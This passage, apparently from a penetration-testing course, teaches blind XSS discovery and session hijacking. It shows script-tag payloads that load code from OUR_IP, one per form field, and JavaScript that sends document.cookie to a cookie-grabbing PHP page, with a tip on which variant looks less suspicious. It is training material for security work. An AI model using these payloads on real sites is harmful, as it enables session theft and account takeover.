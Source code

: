 Now we can start testing these payloads one by one by using one of them for all of input fields and appending the name of the field after our IP, as mentioned earlier, like:

```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...

```

Tip: We will notice that the email must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test.

Once we submit the form, we wait a few seconds and check our terminal to see if anything called our server. If nothing calls our server, then we can proceed to the next payload, and so on. Once we receive a call to our server, we should note the last XSS payload we used as a working payload and note the input field name that called our server as the vulnerable input field.

`Try testing various remote script XSS payloads with the remaining input fields, and see which of them sends an HTTP request to find a working payload`.

* * *

## Session Hijacking

Once we find a working XSS payload and have identified the vulnerable input field, we can proceed to XSS exploitation and perform a Session Hijacking attack.

A session hijacking attack is very similar to the phishing attack we performed in the previous section. It requires a JavaScript payload to send us the required data and a PHP script hosted on our server to grab and parse the transmitted data.

There are multiple JavaScript payloads we can use to grab the session cookie and send it to us, as shown by [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc):

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;

```

Using any of the two payloads should work in sending us a cookie, but we'll use the second one, as it simply adds an image to the page, which may not be very malicious looking, while the first navigates to our cookie grabber PHP page, which may look suspicious.

We can write any of these JavaScript payloads to `script.js`, which will be hosted on our VM as well:

```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie

```
